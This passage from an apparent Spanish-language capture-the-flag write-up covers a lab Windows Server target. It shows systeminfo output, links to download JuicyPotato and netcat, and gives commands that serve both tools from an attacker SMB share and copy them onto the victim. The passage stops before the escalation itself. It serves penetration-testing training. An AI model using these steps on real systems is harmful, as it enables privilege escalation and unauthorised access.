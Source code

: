 ```
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,591 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,600 MB
Virtual Memory: In Use:    495 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.74.109
                                 [02]: fe80::105e:cd75:e3ee:bb82
                                 [03]: dead:beef::105e:cd75:e3ee:bb82
```

Lo que debemos hacer ahora es descargarnos `JuicyPotato` en [https://github.com/ohpe/juicy-potato/releases/tag/v0.1](https://github.com/ohpe/juicy-potato/releases/tag/v0.1) y `Netcat` en [https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/). Podemos obtener los `CLSID` de `Microsoft Windows Server 2008 R2 Datacenter` en [https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise/](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise/). Una vez descargado todo esto nos vamos a la carpeta donde se encuentran las descargas y creamos un `servidor` con `smb` 

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

Desde la máquina windows `obtenemos` todos los `archivos`

```
PS C:\Users\merlin\Desktop> copy \\10.10.16.16\smbFolder\JuicyPotato.exe .
```

```
PS C:\Users\merlin\Desktop> copy \\10.10.16.16\smbFolder\nc.exe .
```

```
PS C:\Users\merlin\Desktop> dir


    Directory: C:\Users\merlin\Desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---         7/19/2024   4:13 PM     347648 JuicyPotato.exe                   
-a---        12/26/2010   2:26 PM      36528 nc.exe 
```
